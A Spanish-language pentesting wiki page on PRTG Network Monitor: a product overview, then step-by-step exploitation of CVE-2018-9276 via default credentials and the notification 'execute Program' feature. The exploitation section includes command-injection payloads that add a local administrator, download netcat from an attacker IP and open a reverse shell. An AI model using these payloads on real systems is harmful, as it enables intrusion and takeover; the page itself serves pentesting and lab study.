



# PRTG NETWORK MONITOR (RCE)

## INFORMACIÓN BÁSICA


Fuente


La herramienta **PRTG Network Monitor** es una solución de monitorización “**Todo en Uno**” y libre de agentes (**no necesita instalar ningún agente externo en el equipo a monitorizar**).

Combina tecnologías estándares de monitoreo (**SNMP, WMI, NetFlow, JFlow**, entre otros) con una completa serie de características fáciles de usar.

A través de una interfaz intuitiva y tecnología de última generación, se adecua como una solución ideal para redes de cualquier tamaño, desde empresas pequeñas hasta grandes corporaciones,

Funciona con una sola licencia, sin costos ocultos, sin complementos y sin complejidad para el usuario final.

**PRTG** asegura la disponibilidad de los componentes de red, mide su tráfico y su uso, reduce costos evitando interrupciones, optimizando las conexiones, ahorrando tiempo y controlando los Acuerdos de Nivel de Servicio (SLAs).

### Capacidades

Con PRTG Network Monitor usted podrá monitorizar:

* El tráfico en la red interna y hacia/desde Internet.
* Verifique su ancho de banda contratado ya sea en soluciones de Internet como enlaces dedicados punto a punto.
* El rendimiento y las características (estado de puertos, trafico, estado de VPN, tiempos de respuesta, QoS, autenticación, etc) de sus equipos de red (switches, routers, Access points, firewalls, módems, etc.)
* Las características y el rendimiento de sus servidores físicos (Discos, arreglos RAID, estado del procesador, memoria RAM, fuentes de poder, ventiladores, etc.)
* El rendimiento y las características de funcionamiento de sus S.O. de servidores (GNU/Linux, Windows Server, etc.)
* El funcionamiento de sus aplicaciones y páginas web (servidores web (IIS/Apache), ingresos, autenticaciones, tiempos de respuesta, chequeos de contenido, etc.)
* El rendimiento de sus bases de datos (Microsoft SQL, PostgreSQL, Oracle, MySQL, MongoDB, supervisión por conexiones ADO, conexiones, sesiones y otros.)
* Servidores de archivo (archipos, directorios, cuotas, sistemas NetApp, servidores FTP, etc.)
* Servidores de correo (Exchange, SMTP, IMAP, POP3, etc).
* Sistemas de virtualización (Hyper-V, VMware, Citrix Xen Server, Virtuozzo, Amazon CloudWatch, etc.)
* Servidores de autenticación (LDAP, RADIUS, Active Directory).
* Cualquier dispositivo, aplicación, servicio o servidor compatible con la tecnología de SNMP (v1, v2, v2c, v3), WMI, Netflow, SSH, JSON, entre otros.

### ¿Que es un sensor?

Un sensor es una característica monitorizada (ancho de banda, disco, memoria, etc.) de un dispositivo (servidor, equipo de red, aplicación web, etc.)

Para monitorizar un servidor físico y conocer la información de uso de disco, memoria RAM y disponibilidad necesitamos utilizar 3 sensores:

* Uso de disco
* Uso de memoria
* Sensor de ping (Disponibilidad)

## RCE


Fuente



Fuente


Los servicios de monitorización de red son especialmente sensibles a las vulnerabilidades de ejecución de código remota (RCE) debido a que contienen características instaladas que permiten la ejecución de código como parte de la respuesta ante determinadas notificaciones.

En este caso, PRTG Network Monitor no permite ejecutar cualquier tipo de script sino que depura el código introducido y lo limita a un archivo tipo batch (.bat) o a uno tipo Powershell (.PS1).

Sin embargo, en las versiones < 18.2.39 esta depuración estaba mal implementada en los archivos .PS1 permitiendo ejecución de código.

De esta manera surge el [**CVE-2018-9276**](https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2018-9276).

### Cómo explotarlo

#### Autenticación

Lo primero es autenticarse pues debemos tener acceso al servicio.

Las credenciales por defecto son **prtgadmin:prtgadmin**

#### Ejecución

Para explotar la vulnerabilidad tenemos que navegar hasta la herramienta de creación de notificaciones que podemos encontrar en el lado derecho de la pantalla (el símbolo +) al navegar hasta:

`setup / account settings / notifications`



Después de esto seleccionamos **"execute Program"** y seleccionamos en el desplegable de tipo "**Demo exe notification - outfile.PS1"**



Por último debemos editar los **"parámetros"** de la notificación con el código que queremos ejecutar:



Una vez hecho esto le damos a "Save" y en la pantalla de notificaciones seleccionamos la nueva notificación que hemos creado y le damos a la campanita para realizar una prueba de la misma. Esto debería hacer que nuestro código se ejecutara.

### Obtener acceso

Para obtener acceso al sistema mediante una shell podemos utilizar varios procesos:

#### Crear un nuevo usuario administrador

&#x20;Puesto que el servicio se ejecuta por defecto como "Local System" podemos crear administradores locales sin problema.&#x20;

Para ello utilizamos el siguiente código:

`test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`


Es importante tener una manera de acceder al sistema si se va a utilizar éste método. Vía ssh o psexec vía SMB.


#### Reverse shell

Si no tenemos otra forma de acceder tambien podemos desargar en la víctima el programa "netcat" y utilizarlo para establecer una reverse shell con nuestra máquina atacante:

```
test.txt; Invoke-WebRequest http://10.10.15.200/nc.exe -OutFile c:\Users\Public\Downloads\nc.exe
```

```
test.txt; c:\Users\Public\Downloads\nc.exe 10.10.15.200 1234 -e cmd.exe
```
